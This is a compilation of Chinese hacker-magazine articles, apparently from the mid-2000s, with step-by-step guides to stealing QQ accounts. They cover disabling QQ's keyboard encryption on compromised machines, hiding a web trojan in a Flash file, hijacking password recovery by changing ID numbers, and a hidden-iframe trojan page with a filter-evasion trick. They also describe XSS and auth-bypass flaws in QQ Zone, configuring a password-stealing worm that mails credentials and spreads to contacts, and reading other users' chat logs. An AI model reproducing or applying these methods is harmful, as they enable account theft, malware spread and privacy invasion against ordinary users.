- **键盘加密保护技术**：QQ2005 Beta3 采用了国际先进的 nProtect 键盘加密保护技术，能最大限度地防止用户的密码输入不被病毒、键盘记录程序所窃取，大大提高QQ用户的帐号安全。  
- **文件传输安全**：共分3级（高/中/低），可阻止可执行文件传输，或通过重命名绕过时进行拦截。  
- **链接安全保护**：聊天消息中的链接访问增加安全检查和提示，降低恶意网站风险。

另一方面，用户可设置“消息中的链接可直接点击浏览”选项，从而增强了链接访问的安全性。新增了安全链接检查、举报功能，限制钓鱼网站、恶意网站等不安全链接的传播，增强QQ用户在聊天时接收链接和访问链接的安全性。

## 三、突破QQ安全中心

### 1．破解键盘加密保护技术

- nProtect 键盘加密保护系统功能如下：  
  - 阻止黑客工具读取键盘信息。  
  - 自动检测键盘信息记录器程序。  
  - 对每一次键盘敲击进行实时加密和解密（采用 RSA 128 位算法）。

启动 QQ2005 Beta3 或 TM2005 版本后，nProtect 键盘加密保护系统会自动启动，用户敲击键盘输入密码时会对键盘信息实时加密，防止黑客截取有效键盘信息。即使用户的PC中有木马程序，黑客也无法正确读取输入的键盘信息，从而防止QQ和TM客户端可能出现的密码被盗情况。

nProtect 键盘加密保护系统真的像腾讯所说的那么安全吗？世界上没有绝对安全，连微软的XP系统黑客都可以破解，何况腾讯QQ的安全中心呢？事实也如此，就在 QQ2005 Beta3 发布不久，“啊拉QQ大盗”的作者就发布了可以破解 nProtect 键盘加密保护系统的版本，它可以很容易窃取QQ号码。

QQ2005 Beta3 安装完成后，运行QQ主程序登录（图1），密码输入框的安全锁显示正常，然后运行“窗口键盘记录器”（一个只有12K的键盘记录软件），登录QQ后“窗口键盘记录器”没有记录到用户登录密码，看样子 nProtect 键盘加密保护系统起到了作用。


我们将“啊拉QQ大盗”配置好（具体配置过程详见以前的相关文章），生成木马后运行查看。密码输入框旁会出现提示，说明“键盘加密技术失败……”。在此给腾讯提个醒，nProtect 键盘加密被破解后应明确提示，不要只显示红叉。再次运行“窗口键盘记录器”并登录QQ后即可记录到输入内容，可以看到已经记录到QQ的登录密码。

我们来证实一下，安装完 QQ2005 Beta3 后将 `npkcrypt.sys` 改名，登录QQ，可以看到输入框的安全锁显示红叉叉，运行键盘记录软件真的将密码记录下来了。由此证实 `npkcrypt.sys` 就是 nProtect 键盘加密保护系统的主要文件，容易吧！号称业界先进的 nProtect 键盘技术就这样轻而易举地被破解了。

由此看来“啊拉QQ大盗”真的将 nProtect 键盘加密破坏掉了。可利用的什么原理呢？我们用注册表比较软件“regshot”比较一下运行“啊拉QQ大盗”前后的QQ安装目录，不难发现一个可疑文件 `npkcrypt.bak`（图4）。也就是说将 `npkcrypt.sys` 改名或删除后，nProtect 键盘加密就被破坏掉了，就这么简单！

我们具体使用时，可利用 Del（删除文件命令）或 Ren（重命名命令）建立一个批处理文件，上传到肉鸡上，运行批处理文件将 `npkcrypt.sys` 改名或删除，即可破解QQ的 nProtect 键盘加密。

虽然利用以上方法可将QQ的 nProtect 键盘加密破解，但缺点也是显而易见的，那就是密码输入框的安全锁上有个红叉叉。据说高手利用汇编语言跳转指令将 nProtect 键盘加密破解后，密码输入框的锁头仍显示正常，那样的话QQ的 nProtect 键盘加密就彻底地崩溃了。


图2


图3

### 2．突破腾讯QQ的文件传输限制

正是由于腾讯QQ安全中心的功能增强，几乎使原来所有的QQ黑客工具都失去了作用。腾讯QQ的安全中心几乎屏蔽了所有的可执行文件 `exe`、`com`、`bat`，甚至连 `chm`（已编译的HTML帮助文件）、`hlp`（Windows帮助文件）也不让传输，利用文件传输功能种木马几乎不可能，这似乎断绝了我们常见的木马传输途径。

事实上最直接的传输文件的办法，就是将木马和正常文件捆绑后加一个壳，不过可不是加常用的壳，那样的话你加再多的壳仍然是 EXE 文件，是没有用的。我们是利用 rar 将捆绑后的木马打成 `.rar` 包，就可直接传输木马了。当然用 rar 打包并不是最好的方法，利用魔法表情应该是一种较好的方法……因此我们可利用QQ允许传输 flash 文件的特性，将网页木马插入到 flash 文件中，发送给别人。

我们先看清 flash 文件的类型，在 flash 中 `*.fla` 文件叫做“源文件”，“源文件”可以用 `flash mx` 编辑修改；还有一种是 `*.swf`，是导出影片格式文件，是不能修改的。大家平时看到的一般都是 `*.swf` 文件，`*.swf` 文件不仅可以用 flash 播放器播放，也可以在各种浏览器中播放，是目前网上最流行的动画文件。


图4

由于我们不会做动画（当然如果你会做动画就好办了），只好到网上去下载动画，网上的动画都是 `*.swf` 格式的文件，几乎找不到 `*.fla` 格式的“源文件”……可用到“硕思闪客精灵”，它可以将 flash 动画中的图片、矢量图、字体、文字、按钮、影片片段、帧等基本元素完全分解（图5）。

我用“硕思闪客精灵”打开 `yahoo.swf`（此文件为新浪网上的 yahoo 邮箱广告），点击“导出到 FLA 文件”按钮，就可以保存为 `yahoo.fla`。


图5

`fla` 格式文件。然后就可用 `flash mx` 打开 `yahoo.fla` 文件插入网页木马的地址了（图6）。我们用 `flash mx` 打开 `yahoo.fla` 插入木马，在 `flash mx` 下方“动作”（如看不到可按F9打开“动作”按钮）按钮的“浏览器/网络”中点击“getURL”添加网页木马地址。假设网页木马地址为 `http://www.hackerxfiles.net/muma.htm`，由于只插入一个木马网页运行后可能引起怀疑，可再插入一新浪主页地址 `http://www.sina.com.cn/`；然后再插入新浪广告 `http://ad4.sina.com.cn/200511/24/38113_yahoo-mail-1125-hp750450.swf`；最后打开“文件”菜单点“导出影片”保存为 `yahoo.swf` 就可以了。

然后就可将 `yahoo.swf` 文件发送给别人了，当对方打开 `yahoo.swf` 后在新浪主页、广告打开的同时，我们的网页木马也同时运行了，收到文件的人还认为是广告，这样就不容易引起别人的怀疑了。


至于“链接安全保护”，由于 QQ2005 beta3 默认是打开链接，也就谈不上突破了，由此看来QQ的安全中心还是比较脆弱的，希望腾讯公司能进一步改进安全中心使我们的QQ更安全。另外万一中了QQ木马，输入框的安全锁显示红叉叉，可将木马清除后，将 `npkcrypt.bak` 文件改名为 `npkcrypt.sys` 即可恢复正常。

最后说一下如何防止中木马，当然还是在QQ上不接受任何人任何格式的文件，另外一定不要单纯依靠瑞星等杀毒软件，我们在安装杀毒软件的同时，还应该安装天网等网络防火墙，因为“啊拉QQ大盗”等盗号木马还是无法突破天网防火墙的。本文章仅做技术研究，不要用来做坏事！

（文中所涉及到的工具和QQ大盗、顽固闪客精灵光盘中有收录）


在看了06年第二期的《巧破QQ密码保护》一文后，曾经有朋友和我一起讨论说，那篇文章中有一个关键的地方没有讲清楚，就是对方的证件号码从何而来的。是呀，这个关键的东西不知道，所有的申诉自然也就不可能成功，而且，就算是我们通过某些方法知道了对方的证件号码，成功修改了对方的密码保护，可对方同样也可以通过自己的证件号码再重新改过来呀！看来，唯一的解决方法就是换成别的证件号码了，无意中这个方法还真让我发现了。

我是QQ会员，有一次登录 `http://my.qq.com/`，想使用一下会员的增值功能，顺便又去看了看我的个人信息，看自己的预付费会员什么时候到期。我发现在个人信息页面（`http://my.qq.com/info.shtml`）的底部，有一个“我的身份信息”，如图1。注意到这些信息中的“证件号码”了没有，而且下面还有一个更改按钮。难不成此处可以修改证件号码？！


我点击了“更改”按钮，接着输入了我的一些信息，在“证件号码”那一栏里填入了任意的一串数字，最后输入验证码，点“确定”，居然提示说“修改个人信息成功”，如图2、图3……就连我自己都没有想到会是这么顺利，于是我赶紧到 `http://service.qq.com/psw/mo.shtml?psw_mdf.htm` 进行号码申诉，如图4，试着用刚才修改了的证件号码修改我的密码保护资料，真的成功了！现在，我们再结合第二期《巧破QQ密码保护》一文中的方法，就可以随心所欲地更改QQ的密码保护信息了。

### 总爱马，秘诀——托乐“超强”

——我是盒星魂


经常看X档案，许多朋友都已经让自己“变”成QQ会员了吧！正因为得来全不费工夫，所以也不会花时间去注意QQ的那些收费功能，比如给QQ网络硬盘加密码。其实这个原理还是很简单的，只要在会员期间给QQ硬盘加过密码，即使以后取消会员服务，网络硬盘也还是有密码的……


如果我们使用TM，是可以为好友设置在线状态的，如图3，而且网络硬盘体积也增加了16M，变成了32M。不过现在腾讯公司很不地道，不是会员下载就得排队。有时候下载一个几K的东西排队就得十几分钟……

我向各位朋友推荐一种办法，或是双开网盘。先打开一个你想下载或上传的QQ号，随便上传或下载一个文件，这时是需要等待的；再打开另一个QQ号（必须是开通了网络硬盘的），把第一个QQ的操作队列取消，如图4，这时可重新上传或下载原文件，就不用等待了……


其实QQ的保护性是很差的，从程序的命名和图标就能猜出排序变更实现的功能。比如 `QQPet.dll` 一看就是和QQ宠物有关；文件夹 `AD` 就是在放广告的。以前网上有个 2005 版破解会员的补丁，不过功能很有限，只是去掉QQ广告、显示当前登录IP地址和时间提示功能……

现在闹得比较火的就是本地破解自定义头像和修改QQ等级。不是会员和太阳等级一样也能有头像：把用户上传头像下载存放在QQ安装目录下（`UserHead` 目录），找一个和头像像素及比例大小相同的图片，改成正常头像名称替换即可……修改QQ等级也类似，对应文件是QQ目录的 `QQRes.dll`，可用 eXeScope 等资源修改软件处理。

显示是 `48*16`，256色，自己制作一个全是太阳的 BMP 图像替换，这样不只是自己，所有QQ好友的等级都成太阳了。不过，这种方法修改过的，只能在本地显示，别人看还是你原来的头像和等级。

我们利用QQ公司推出的新功能，不需要加对方为好友也可以给对方QQ发送消息。原理就是修改URL标签，相信没有多少网站屏蔽这个吧。正常情况下QQ在线状态的论坛代码是  
`[img]http://wpa.qq.com/pa?p=1:QQ号:1[/img][url=http://wpa.qq.com/msgrd?v=1&Uin=QQ号&Site=网站名&Menu=yes]点击这里给我发消息[/url]`，  
可是URL标签后边的网址可以改为  
`[img]http://wpa.qq.com/pa?p=1:QQ号:1[/img][url=http://www.hackerxfiles.net]点击这里给我发消息[/url]`，  
点击后弹出X档案的主页，在论坛上显示的和没改之前是一样的，如图7。大家也看到了，只是简单地把URL标签改一下是不行的，别人给你发消息的时候不显示QQ聊天窗口，一定会怀疑的。


我们继续发挥一下，在弹出网页里写上隐藏帧 `<iframe src=本马网页 width=0 height=0></iframe>`，网页标题“正在加载网页”，内容设置为空白，再用上自动关闭脚本，设置为10秒，一般的机器10秒应该能执行完代码。


```html
<script language="javascript">
<!--
function hackqq(){
  window.opener=null;
  setTimeout("self.close()",10000);//10秒后自动关闭
}
//-->
</script>

<body onload="hackqq()">
...
<body onUnload="leave()">
<script LANGUAGE="JavaScript">
<!-- Begin
function leave(){
  window.open("http://wpa.qq.com/msgrd?v=1&Uin=QQ号&Site=http://www.hackerxfiles.net&Menu=yes",
              "", "toolbar=no,menubar=no,location=no,height=800,width=600")
}
// End -->
</script>
```


这样在网页关闭时就会跳转刷新到正常QQ页面，因为QQ的那个页面加载时候慢，因此通常不会被注意到的。有朋友会问怎么不用 META 标签刷新 `<meta http-equiv='refresh' content='10;url=QQ聊天的网页'>`，主要是因为 WinXP 的 IE 浏览器屏蔽 META 标签，网页代码不可能执行，脚本编码或加密后就可以绕过限制，比如把 `javascript` 改为 `java&#115;cript`。

说道脚本，就不得不提QQ空间跨站漏洞，先了解一下对应的QQ空间情况。QQ-ZONE是2005版QQ推出的服务，相信很多朋友都有自己的空间吧，不过一般的空间效果都不好，腾讯公司又没有像样的官方教程，用什么都要花Q币。想必大家都是看着别人制作好的空间眼红吧，其实网上早就推出了相关的QQ空间代码生成器，有的是直接生成代码，例如黑客动画QQ代码查看器，有的是按设定好的步骤操作，比如中国红黑联盟的QQ代码生成器。有了这些小工具，普通QQ号码一样可以制作出好的QQ空间，如图8。

另外，我们还有一些别的办法将别人空间的代码完全复制过来。打开  
`http://q-zone.qq.com/fcg-bin/cgi_access_self.fcg?uin=你想搞的QQ号&type=0`，  
显示是个 XML 文档，查找 `<itemno>` 和 `</itemno>` 之间的数值，其实就是自定义版块的ID。不一定有几个，只要是大于六位的数值都记下来，中间用“|”符号隔开。格式如  
`1234567|1234567|12345678|12345678|1234567`，  
最后打开  
`http://q-zone.qq.com/fcg-bin/cgi_diy_window.fcg?uin=你想搞的QQ号&type=11&wndid=...`，  
这个号的QQ空间的所有代码都会在浏览器里显示出来。


在 `<content>` 和 `</content>` 之间的就是空间自定义代码。换一下网址里的 `cgi_*.fcg` 代表的字母还能找到别的有价值内容，找到人空间相关资源如图片和 FLASH，可以在浏览器临时文件夹 Temporary Internet Files 下载到。因为所有图片和脚本都要下载到本地解释执行。

上边的方法也有现成工具 Search QqZone，填上QQ号码就能爆出源码，原理一样。需要注意模板ID的顺序是从左到右、从上向下写。另有“QQ空间刷人气”等工具，其原理多是互相访问达到互刷。

接着说QQ空间的 CSS 跨站漏洞：进入 Q-Zone 后，设置空间名称时过滤不严，常只禁 `<`、`>`、单引号等，在客户端对输入数据过滤但不允许站外提交。可通过抓包与提交工具进行利用。

QQ空间还有登录密码验证不严的漏洞，可能绕过密码验证访问空间。先给自己的某个空间加密码，再把浏览器地址栏参数中的QQ号替换成目标QQ，刷新尝试即可。


下面再来讲一下QQ的申诉技巧。我们搞到比较中意的QQ后，往往会发现该号已申请密码保护，通常密码提示问题为生日、女朋友和手机号等，这些可以根据其QQ资料尝试猜测。


## QQ宝典


不过，只更改密码是没用的，下次他再用的时候还能够改回去，只有申诉。令大家比较头疼的是必须要填证件号码，这个号码基本上是不可能猜到的，可是申诉成功与否基本上就要看证件是否正确了。这也是有解决办法的，因为我们可以进入 MYQQ 修改个人资料来更改这个证件号码，具体的方法参见“随心所欲，QQ 终悔一生”。

号码搞到了就得删他的好友，主要是为了防止被别人骂。在好友管理器里一个个地用 Ctrl 拖到黑名单中可是够慢的，我们可以使用“QQ 批量删除好友”，用法是先拖动鼠标选中要删除的好友，再拖到黑名单里。这个工具的功能只是方便不用一个个点击，还是要被封 IP 的，没办法，最好使用代理，如图13。

再介绍几种个人收藏的 QQ 工具，首先是 MiniQQ，和普通精简的 QQ 版本完全不一样。现在 QQ 的功能增多，占用的内存也越来越大，尽管有高手制作精简 QQ，减少了很多组件，可是怎么也得有 20M 吧，特别是在结束 TIMPlatform.exe 的进程后，机器的反应速度就彻底不行了。在桌面上点右键都不管用，所以我觉得用这个办法节省内存是骗人的（也可能是自己机器的原因，没在其他的地方试过）。其实大多数时候我们使用 QQ 也就是聊天，基本上用不着别的功能。MiniQQ 的功能也只有一种，就是聊天，而且是命令行模式，玩游戏的时候肯定不会弹出来，大小仅 70K，可设在线状态，添加删除好友，支持 QQ 群操作。可以看到在同目录下还有多个以你登录过的 QQ 命名的目录，里面就是你的聊天记录，以文本格式存放。最重要的是 MiniQQ 内存占用绝对在 1M 以下，见图14。

QQ2006 版免密码查看器，这个小工具的界面差了点，不过却是真正能够看 2006 版 QQ 聊天记录的软件。这个版本的免密码查看器不同于以前的，使用的时候不需要断网，相信大家以前都用过类似的工具，用法就不再废话了，如图15。

如果不想别人使用我们电脑上的 QQ，可以使用“QQ锁”，它可以设置特定的 QQ 号是否能使用。具体说就是只允许添加到列表的号码才能正常登录使用，而其他的 QQ 则不被允许使用，显示出 QQ 窗体就会被关闭，而且还可以加密码保护（默认密码是空），如图16。


我一直想有个 QQ 宠物，听说使用银行卡花九块钱充 10 个 QQ 币，系统就会免费赠送一个。不过，我可舍不得花那九元钱。另外，我们还可以通过 QQ 许愿得到宠物，一个普通的 QQ 号码每月只能许一个愿望，会员是三个，可以许愿的选项基本上都是一些收费服务。不过成功率不大，按 QQ 网页的统计只有 30%。最近腾讯又搞了另一个活动，就是领养 QQ 天使宝宝，网页是 http://pet.qq.com/act/angel/index/shtml，如图17，可我换了 30 多个号也没有领养到，真够郁闷的。


最后再说一下 QQ 的安全防护措施，总不至于大家都会盗 QQ 而不会保护自己吧！不管哪个盗 QQ 工具都要实时查找 Windows 窗口中有没有名为“QQ用户登录”的句柄，只要找不到对应的标题就不认为 QQ 在运行，如果有就开始键盘记录。所以我们可以修改 QQ 窗体，还有就是使用软键盘或是使用自动登录。另外，也可以使用专门的工具——QQ 密码防盗专家，如图18，其默认的选项就能保护 QQ 密码不被盗走。一是可以变动 QQ 标题，让所有的 QQ 盗密软件失效；二是可以使用无敌外挂，利用假的 QQ 登录界面防护，就是使用假的 QQ 号码替换真的 QQ 号码，就算是偷号软件记下 QQ 号和密码也不管用，比如你登录时填上 10000 的系统号码，让偷号的空欢喜一场。这个软件还有自动查杀的功能，我测试过，连阿拉QQ1.7b都被杀了。


这个软件最厉害的是密码取回功能，只要是在设置列表中的 QQ 号码，在安装过这个软件的电脑上（不一定必须是被盗的那台电脑）再次登录，就能把密码发到你的邮箱里去。这个软件还可以屏蔽广告、监控聊天记录，如果是珊瑚虫版的 QQ 还可以分类列出好友地区。还有一些其他的 QQ 辅助工具，基本上所有常见的 QQ 外挂都在里面，比如 QQ 自动聊天机器人、QQ 强聊器、QQ 视频非接不可、QQ 广告群发工具等，如图19。要想使软件更隐蔽，可以不选择开机自启动，把 QQ 和这个软件的所有文件放进系统目录，自己添加启动项，默认的是 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`，名称是 qqpc.exe。

本文基本上涉及到了 QQ 当前的所有小漏洞和利用方法，顺便提一下，现在 QQ 防护的技术也在提高。其实盗 QQ 号并不一定要用专用的木马，可以改造 QQ 主程序，最新的方法是用汇编写上嵌入式木马，可躲避杀毒软件和克服硬件键盘无法记录的缺憾。

很简单，选好入口点和程序段空隙，代码就 20 句左右，因为不是自己原创，没办法写出来，否则作者 laoqian[FCG] 大哥会骂的，分析和实现方法已经放在附带压缩文件里（QQ 另类木马全攻略），有兴趣的朋友看一下吧！

（本文涉及到的工具 QQ 空间常用代码查杀器、QQ 空间代码生成器、SearchQQZone、QQ 空间刷人气、Q-zone 个人空间名称彩站漏洞利用工具、QQ 好友删除助理、MiniQQ、QQ2006 免密码查看器、QQ锁、QQ 密码防盗专家等，已收录于光盘中）


## QQ财富查询 v1.01

经常看 X 档案的朋友，对于盗取 QQ 号码应该不陌生吧，想必许多读者都有了一大把的 QQ 号码。对于这些 QQ 号，我们通常都会进行筛选，看是否为会员、是否为三钻，以及他们的财富值与 QQ 秀如何等。以前想到 http://pass.qq.com/ 上去查询（图1），但该页面显示的信息毕竟很少；而对于钻石服务的查询，我们还要进入 http://my.qq.com/，如此登录、转换页面、退出……很是麻烦。

今天，我给各位菜鸟介绍一个好工具——QQ 财富查询 v1.01，这个小工具可以快速地查询 QQ 财富情况，而且不必输入密码；其次还可以分析号码、筛选号码等。工具运行后的界面如图2所示。


我从信箱中翻出了一个 QQ 号 381120299，先将 381120299 输入到“有找”中，点击“网上查询”，如图3，马上就成功地查到了这个 QQ 的资料，还是三钻呢，居然还有 75 个 QQ 币，真令人羡慕！

如果要查询的 QQ 号码非常多的话，还可以进行批量查询。我们首先将号码保存在该软件目录下的 QQ.txt 文件内，保存好以后，点击同步查询，然后选择好 QQ.txt，系统就会自动地对其分析，如图4。


很快地，系统的查询结果就出来了，如图5，而且还会自动保存在该软件目录下的 res.txt 中。


最下栏还会显示出具体的贵族信息。我们在“号码”栏中输入想要查询的号码，就可以查询到对方的具体信息了。再来看看怎样筛选，如图6。我们可以选择贵族（即三钻）、非贵族、红钻贵族、蓝钻贵族等，系统会自动地帮我们筛选出需要的 QQ 来。


我们还可以对财富进行筛选，如图7，只要填入最小值（填入第一个框里）与最大值（填入第二个框里），就可以了，很方便吧！

## QQ性别再变


在以前的黑客 X 档案上曾经介绍过修改 QQ 性别，不过使用的工具是“QQ变性补丁”，可是我下载使用时却提示“文件大小不正确，无法进行修改”。后来我又下载了“QQ变性修改器”，可同样也不能使用，可能是版本的问题吧。那怎么解决呢？有办法！我找到了 ResHacker 这款小工具，这款小工具在以前 X 档案上也曾经收录过。安装以后打开 QQ 文件夹的 QQRes.dll 文件，如图1。然后展开 String Table，里面就有我们个人设置中的东西。改性别就展开 String Table-36-2052，把右边框中的“男”改成“神”，最后保存就可以了，如图2。


## QQ盗保抽奖器


现如今，网上关于 QQ 盗号的工具实在是挥不胜数。为了保护用户的利益，腾讯对 QQ 加入了密码保护功能，只要 QQ 号码绑定了邮箱，并且知道密保答案的话就可以取回自己的密码。这对于盗号者来说可不是好消息，辛辛苦苦“搞”来的靓号却被别人用密保保护取回去了。这该怎么办？如果我们能把他的密码保护也一起搞到手，那不就……正好网上有这么一款软件——农民 QQ 密保大盗，可以将 QQ 的密码保护资料也盗来（真是方便我等菜鸟啊）。别看软件名字不怎么样，功能可一点都不含糊，比如 051224 平安夜版。这个版本在原来盗取密保的基础上增加了 QQ 蠕虫，所以也叫 QQ 窃密蠕虫，这个功能可以给 QQ 好友自动发送木马程序。

打开该软件后的界面如图1，右面就是软件配置区，我们可以选择生成 QQ 蠕虫或者密保大盗，也可以两个都选择，还可以选择破解还原精灵，实际需不需要这些功能自己选择。下面填的是发送文件前要和对方说的话，不然平白无故给好友发个文件，谁都会怀疑。再下面是要发送的文件名，一个有诱惑性的名称，比如我取的是“和我视频的美女”。

接下来就是配置密保大盗了，它的收信方式有两种：网页和邮箱。网页方式需要你有个支持 ASP 的空间，将 qq.asp 文件上传到你的空间中。默认生成的记录文件是 qq.txt，如果大家采用空间收信的话，强烈建议用记事本打开 qq.asp，把 qq.txt 修改成不容易被猜到的名字，防止别人看到。勾选“过滤重号”和“运行后关闭 QQ”，什么作用就不用我说了吧。

邮箱收信需要设置 SMTP，这里提供了 163、126、tom 和 sina 的邮箱地址。发信我建议用 tom 的，因为我测试 126 和 163 总是不成功。收信邮箱最好不要和发信用同一个，这样不容易被别人破解。下面还有一个靶号收信箱，它会把小于八位的 QQ 号码发送到你设定的这个信箱中，如不填写将收不到 8 位和 8 位以下的号，你也可以和普通号码用一个邮箱。我的配置如图2，点测试信箱，到收信邮箱看看，呵呵，收到了测试邮件。


为了试验它的效果，我亲自运行了一下木马，图3是我收到的密码信件，我再去修改密保资料，看看它能不能截取到，也搞定了，如图4。并且我的 QQ 还自动给好友发送木马，也就是蠕虫功能（图5），这样我们的木马感染范围就会进一步扩大。怎么样，这下不怕我们的靶号被别人取回去了吧！


然后就是生成木马了，它可以生成 pif 格式和 exe 格式，pif 格式是可以直接通过 QQ 的传送文件传送的。生成的 exe 文件过大，大家可以压缩一下，它自带了一个 unpack 的壳，不过好像加了还是被杀，大家可以换成别的壳。最后就是如何让别人中木马了，方式很多：在网页上挂马，通过 QQ 或 MSN 发给好友执行，通过远程溢出漏洞直接上传执行等等，大家自己发挥了。


（文章中涉及到的 QQ 窃密蠕虫已由午夜灰色收藏到光盘中）


## QQ的小便宜不能贪


虽然 QQ 是一款免费的网络聊天工具，但是倘若你想拥有 QQ 秀、成为 QQ 会员的话，却是需要 Q 币的，而 1 个 Q 币就是一元钱！像我等穷光蛋菜鸟只好想别的办法。许多网站上都有刷 Q 币的方法，但绝大多数都不能使用，甚至有的方法还白白浪费你的钱。相对来说，较实用的方法就是入侵 ADSL，然后使用 ADSL 的账号刷 Q 币……


情况不妙，可能中招了，看来那几个程序肯定有问题。我用 PEiD 一查刚才的那几个压缩文件，居然是使用 VC++ 编写，而且还加了密（图3），这肯定是 QQ 盗号的软件……


怎么办呢？使用杀毒软件杀毒？与其那样轻易地杀掉木马，还不如反击一下，进入对方的邮箱……我们需要一个嗅探工具，我推荐使用 sniffer 和它的图形版 XsnifferGUI，操作很简单。打开 XsnifferGUI.exe，点击监听，然后打开 QQ 登录……在 XsnifferGUI 文件的同一目录下会生成 pass.log，这是重要信息（图4）。


进入邮箱，里面的邮件有几百封（图5），光今天就有 170 多份，短短四天他就收到了 500 多封邮件，太吓人了。随便打开一封，怎么 QQ 的密码这么奇怪，有 20 位的密码，比如密码是：123456，处理后是 123456654321。不会是担心自己的邮箱密码被别人破解后把“成果”偷走吧！盗号的人还新建了叫“放长线”的文件夹。我看了看，里面是 8 位的号和有钱的号……


其实，利用嗅探工具嗅探到盗号木马中的邮箱密码来反击盗号者的方法，不仅适用于 QQ 盗号木马，也适用于网游盗号木马。……

### 你的聊天记录，我知道！

在上期杂志的光盘里有一个软件叫 QQ 聊天记录读取器，这个软件可以让我们以离线的方式，在不输入密码登录到别人 QQ 的情况下，查看到对方的聊天记录。……


众所周知，我们在哪台电脑上登录 QQ，就会在那台电脑的 QQ 目录里形成一个和登录的 QQ 号码同名的文件夹（图1）。……将对方 QQ 文件夹里以 QQ 号命名的文件，全部下载到我们自己的电脑上，存放在 QQ 目录里（图2 中的例子名为 37931**** 的 QQ 文件夹就是我们复制过来的）。……


注册好后点“启动 QQ”，此时弹出 QQ 的登录框，手动输入那个 QQ 号，密码为空，点击“登录”。……虽然提示密码错误，但 QQ 已经登录上去了（图5）。随后在头像上按右键 -> 聊天记录 -> 查看聊天记录，对方的聊天记录立刻出现。……


我使用的是那期出的最新版本，不知道别的版本是否也会成功。其实还有一个更简单的方法可以根本解决这个问题：登录 QQ 的号码列表实际上储存在 QQ 目录下的“LoginUinList.dat”文件里，只要将对方 QQ 目录中的这个文件覆盖你 QQ 目录里的同名文件，一次就可以登录成功。……

## 反击QQ验证消息骚扰者


> 本文介绍一种对付 QQ 验证消息骚扰的方法，对骚扰者进行“反弹”式处理。


图1


图2

在国内，平时我们上网联系一般都使用腾讯 QQ，当然我也不例外。QQ 的注册用户突破了四亿，而活跃用户目前也达到了 1.5 亿。俗话说得好，林子大了，什么鸟儿都有，就是有些人喜欢捣乱。本来上上网是为了享受一下自由自在的网络生活，没想到 QQ 一上线却总是收到 N 多加我的验证消息，内容无非就是让我教他黑站、盗 QQ、挂马什么的，或者是向我拜师的……


图3

于是发来这么多验证信息，我想这个菜鸟肯定是用自动发送器发我的……我先把 QQ 设置为“不允许任何人把我列为好友”，然后把消息反弹给他。点击一次拒绝，对方就会收到一次消息。如何做到无限次发送？其实就是“双击”的效果：在弹出的窗口中打开消息管理器，查看系统信息并双击相关消息，在传统模式下会再次弹出验证窗口（图4）。


图4

这时候我们就可以连续双击，让它弹出验证信息窗口，不停地点拒绝，把消息反弹回去，而这个消息对方是无论如何也阻止不了的。也可以通过按键精灵等工具来实现更自动化的处理。

图5

图6

“暗键游侠”是我朋友写的一款小工具（当然是免费的了，按键精灵可不是免费的），只有100K（比起好几兆的按键精灵可小多了）。但是麻雀虽小，五脏俱全。这款工具可以运行一个按键脚本，可以用自带的编辑器编写脚本，支持鼠标、支持键盘、支持编写批注、支持热键（图5）。点击工具中的“脚本编辑器”，打开编写脚本的窗口（图6）。左边的栏是插入键盘、鼠标等操作的。右边上半部分是写脚本的注释说明，你可以在这里写下脚本的功能说明、使用说明、作者介绍、制作日期等；下半部分就是脚本的代码了，编写的代码会在这里显示出来（注：最前面的字符为感叹号“！”的代码将作为注释，不会被执行）。下面我就开始正式演示。

图7

### 第二步——编写脚本

图8

这里的脚本就是反击时的鼠标操作过程。先获取鼠标停留在信息管理器窗口中某一消息记录的位置（按F7，程序会自动抓取当前位置，图7），然后回到编写脚本的窗口，我们会看到刚才鼠标的位置已经记录下来了，点“插入”，再点击下面的菜单，选择“左键单击”，点插入，代码就会显示在右边（图8）。因为这样完成的操作是单击，所以要把这代码复制一遍，来实现双击。这个过程完成后，就会弹出验证消息的窗口，为了等待弹出窗口，这时要加一个延时（图9）。注意，这里延时的单位是毫秒，一秒等于一千毫秒，大家可以根据自己的情况来选择延时。

图9

图10

#### 第二步——保存脚本

脚本代码编写完成后，点击脚本编写窗口中的“保存”，在弹出的对话框中再次保存即可（图10）。剩下的操作主要是利用鼠标功能完成发送拒绝信息的过程。

#### 第三步——运行脚本

回到“暗键游侠”程序界面，点击“打开”，在弹出的窗口中找到刚才保存好的脚本并打开。这时程序会显示脚本注释。我们把执行热键设为“1”，终止热键设为“2”，并将循环方式设为“直到按下终止热键”。设置完成后，勾选“设置完成后开始生效”（图11）。

图11

这时回到QQ信息管理器窗口，按下执行热键“1”，程序会自动开始执行脚本。几秒内会发送拒绝信息。按下终止热键“2”即可停止脚本运行。

> （文中涉及到的“暗键游侠”和作者编写的脚本已收录）

## 呆呆问答

- **问：** QQ在离开状态时能够设置自动回复发送的消息，但怎样让QQ自动发送好友自定义表情？  
  **答：** 进入QQ安装目录，找到自定义表情相关文件夹（如 `Custom Face`），按说明替换/设置默认表情，并在系统设置中配置状态自动回复内容。

- **问：** 使用 Windows XP 时，随着软件增多，磁盘可用空间不断减少，为什么？  
  **答：** 可能与系统还原和 `System Volume Information` 文件夹有关，可通过系统设置管理还原功能。

- **问：** 硬盘分区变为 RAW 后无法访问，如何在尽量不破坏数据情况下恢复？  
  **答：** 可尝试通过“属性-安全”调整权限、恢复访问控制后再进行数据处理。

- **问：** 电脑开机提示 `CMOS checksum error-Defaults loaded`，时间异常，如何处理？  
  **答：** 多与CMOS电池电量不足或主板相关，优先更换主板电池并重新设置BIOS参数。

- **问：** QQ密码无法输入（输入框异常）怎么办？  
  **答：** 可能是系统组件或插件冲突，检查浏览器/输入相关控件并清理异常程序。

- **问：** 不进安全模式、也不借助第三方工具，如何删除“正在使用”的文件？  
  **答：** 在NTFS权限中调整目标文件的访问控制（拒绝读写/执行后再重启），解除占用后删除。

## 网吧黑客

### Pubwin EP 全攻略

JORY CHEN & TOMCK

从七月份开始，我们这儿所有的网吧都统一更换了管理软件，由 Pubwin4 变成了 Pubwin EP。又有新东西来玩了，研究了整整一上午，竟然没有任何成果，这套 Pubwin EP 果然厉害……

坛上有很多人都询问如何确定主机的 IP 地址，其实这个问题在以前的杂志上都介绍过……本文介绍一种成功方法：使用 WinSock Expert 之类抓包工具分析客户端与主机数据包收发情况……

#### 一、免费上网并不安全

不知大家有没有发现，新一代的 Pubwin 客户端并没有禁止“CTRL+ALT+DEL”的经典组合……可以把客户端进程结束掉，从而达到免费上网的目的……

这说明了什么？恐怕再白痴的网管都晓得有人在“那个”了……网管只要收到这条信息，一旦就能找到你……

#### 二、高级技巧之入侵主机

